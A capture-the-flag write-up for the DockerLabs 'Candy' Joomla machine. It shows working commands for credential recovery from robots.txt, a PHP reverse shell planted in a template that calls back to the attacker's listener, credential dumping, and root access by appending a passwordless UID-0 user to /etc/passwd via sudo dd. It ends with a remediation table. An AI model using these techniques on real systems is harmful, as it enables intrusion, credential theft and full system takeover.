# Candy — DockerLabs Writeup

**Platform:** DockerLabs
**Difficulty:** Easy
**Target IP:** 172.17.0.2
**Attacker IP:** 172.17.0.1


## Summary

Candy is an easy Joomla-based machine. The path to root involves discovering leaked admin credentials encoded in `robots.txt`, gaining code execution through the Joomla template editor, finding a second set of hidden credentials in a backup file to pivot to a low-privileged user, and finally escalating to root by abusing a misconfigured `sudo` rule on `/bin/dd`.

**Attack chain:** Recon → Web enumeration → Credential leak in `robots.txt` → Admin panel access → RCE via template editor → Reverse shell (`www-data`) → Hidden backup file discloses `luisillo` password → Privilege escalation via `sudo`/`dd` (GTFOBins) → `root`

---

## 1. Reconnaissance

Confirmed the host was reachable, then ran a full TCP port scan with service/version detection and default scripts.



```bash
ping -c 5 172.17.0.2
nmap -p- -sS -sC -sV -vvv --open -oN scan.txt 172.17.0.2
```

**Results:**

| Port | Service | Version |
|------|---------|---------|
| 80/tcp | http | Apache httpd 2.4.58 (Ubuntu) |

The scan flagged a Joomla-generated `robots.txt` with several disallowed paths, including one unusual custom entry: `/un_caramelo`. This was an early hint that the target's theme revolves around "caramelos" (candy).

---

## 2. Web Enumeration

Browsed to the site and confirmed it was running a default Joomla installation with the **Cassiopeia** template.



Ran a directory brute-force to map the site structure:

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,js,sh,py,txt
```

Key findings:
- `/administrator/` — Joomla admin login panel
- `configuration.php` — accessible but returned no direct output over HTTP
- `robots.txt` — worth inspecting manually for the custom disallow entries noticed during the Nmap scan

---

## 3. Credential Leak via robots.txt

Manually inspected `robots.txt` in the browser. Below the standard `Disallow` rules, a base64-looking string was left as a comment: `admin:c2FubHVpczEyMzQ1`.



Decoded the base64 blob using CyberChef:



```
c2FubHVpczEyMzQ1  →  sanluis12345
```

This gave a full credential pair: **`admin:sanluis12345`**

---

## 4. Admin Panel Access

Logged into the Joomla administrator panel at `/administrator/` using the leaked credentials.



Access was granted to the Joomla 4.1.2 backend dashboard as a super user.



---

## 5. Remote Code Execution via Template Editor

With admin access to Joomla, the classic path to code execution is editing a template file directly from the built-in code editor (**System → Site Templates → Cassiopeia**). Modified `templates/cassiopeia/error.php` and replaced its contents with the pentestmonkey PHP reverse shell, pointed at the attacker's IP and port.



```php
$ip = '172.17.0.1';
$port = 4444;
```

Saved the file. Since `error.php` lives inside the public web root of the active template, it is directly reachable and executable via HTTP.

---

## 6. Gaining a Shell

Started a listener on the attacker machine:

```bash
nc -lvnp 4444
```



Triggered the payload by requesting the modified file:

```bash
curl http://172.17.0.2/templates/cassiopeia/error.php
```



The listener caught the callback, landing a shell as `www-data`:



```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Upgraded the shell for better interactivity:

```bash
script /dev/null -c bash
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```

---

## 7. Post-Exploitation / Lateral Movement

Read Joomla's `configuration.php` to pull database credentials:

```php
$user = 'joomla_user';
$password = 'luisillo123456';
$db = 'joomla_db';
```

Queried the Joomla database for the admin's password hash:

```bash
mysql -u joomla_user -pluisillo123456 joomla_db -e "SELECT username,password FROM umo54_users;"
```

```
admin | $2y$10$f/d0sy442VzLXyaUhSmmOu.FBRYed2afncJFmYkuJwRwsJQoaGYbW
```

The system user `luisillo` existed (confirmed via `/etc/passwd`), but reusing the database password against it failed:

```bash
su luisillo
# Authentication failure
```

Searched for SUID binaries and files readable/owned by `luisillo` to find another way in:

```bash
find / -perm -4000 2>/dev/null
find / -type f -user luisillo -readable 2>/dev/null
```

This surfaced a hidden backup file: `/var/backups/hidden/otro_caramelo.txt`. Reading it revealed a second, real set of database credentials embedded in a leftover PHP snippet — and, notably, its content matched the actual system password for `luisillo`.



```php
$db_user = 'luisillo';
$db_pass = 'luisillosuperpassword';
```

```bash
su luisillo
# Password: luisillosuperpassword
```

Successfully switched to the `luisillo` user.

---

## 8. Privilege Escalation

Checked sudo privileges for the current user:

```bash
sudo -l
```



```
User luisillo may run the following commands on e25b9667ccbf:
    (ALL) NOPASSWD: /bin/dd
```

`dd` is a listed [GTFOBins](https://gtfobins.github.io/gtfobins/dd/) binary: when it can be run as root without argument restrictions, it can be used to write arbitrary data to any file — including `/etc/passwd`. Appended a new user with UID/GID `0` (root privileges) and no password:

```bash
echo 'toor::0:0:root:/root:/bin/bash' | sudo dd of=/etc/passwd oflag=append conv=notrunc
```

- `oflag=append` — writes to the end of the file instead of overwriting from the start
- `conv=notrunc` — prevents truncating the rest of the file's existing content

Switched to the newly created user:

```bash
su toor
whoami   # root
id       # uid=0(root) gid=0(root) groups=0(root)
```

**Root achieved.**

---

## Root Cause & Remediation

| Issue | Fix |
|---|---|
| Admin credentials leaked in `robots.txt` comments | Never store credentials or notes in publicly accessible files |
| Joomla admin panel allows arbitrary PHP file editing | Restrict template editor access; disable file editing for non-essential accounts; use file integrity monitoring |
| Reused/weak database password | Enforce unique, strong passwords per service and account |
| Sensitive backup file left in a predictable, readable path | Remove backup files from production; restrict permissions; never hardcode plaintext credentials |
| Unrestricted `sudo` rule on `dd` | Avoid `NOPASSWD` on binaries capable of arbitrary file read/write; if required, restrict allowed arguments via `sudoers` |
